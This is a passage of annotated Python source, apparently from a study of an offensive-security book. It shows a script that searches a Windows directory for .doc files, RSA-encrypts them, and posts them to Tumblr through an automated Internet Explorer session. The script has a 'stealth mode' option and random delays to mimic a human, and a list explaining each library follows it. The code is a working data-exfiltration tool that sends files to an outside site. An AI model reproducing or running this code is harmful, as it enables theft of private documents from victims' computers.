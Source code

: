 ```python
    
    # post the form
    post.form.children[0].click()
    wait_for_browser(ie)
    
    random_sleep()
    return

def exfiltrate(document_path):
    ie = win32com.client.Dispatch("InternetExplorer.Application")
    ie.Visible = 1 # set to 0 for stealth mode
    
    # head to tumblr
    ie.Navigate("https://www.tumblr.com/login")
    wait_for_browser(ie)
    
    # encrypt the file
    title, body = encrypt_post(document_path)
    
    print("Creating new post...")
    post_to_tumblr(ie, title, body)
    print("Posted!")
    
    # Kill the IE instance
    ie.Quit()
    ie = None
    
    return

# main loop for doc discovery
# the book here use "for parent, directories, filenames in os.walk("C:\\"):"
for parent, directories, filenames in os.walk("C:\\Users\\user\\Downloads\\test"):
    for filename in fnmatch.filter(filenames, f"*{doc_type}"):
        document_path = os.path.join(parent, filename)
        print(f"Found: {document_path}")
        exfiltrate(document_path)
        input("Continue?")
```

#### Key Components:

1. **Libraries**:

   - **`win32com.client`**: Interacts with Internet Explorer through its COM interface to automate the login and posting process on Tumblr.
   - **`os`, `fnmatch`**: Used to traverse the filesystem and find `.doc` files (this script assumes `.doc` and not `.docx`).
   - **`time`**: Used to implement random delays to mimic human interaction.
   - **`random`**: Generates random values (for example, for the `random_sleep()` function).
   - **`zlib`**: Compresses the plaintext before encrypting it.
   - **`base64`**: Encodes the encrypted data into base64, so it can be safely transmitted via HTTP.
   - **`Crypto.PublicKey.RSA` and `Crypto.Cipher.PKCS1_OAEP`**: Used for RSA encryption of the document.
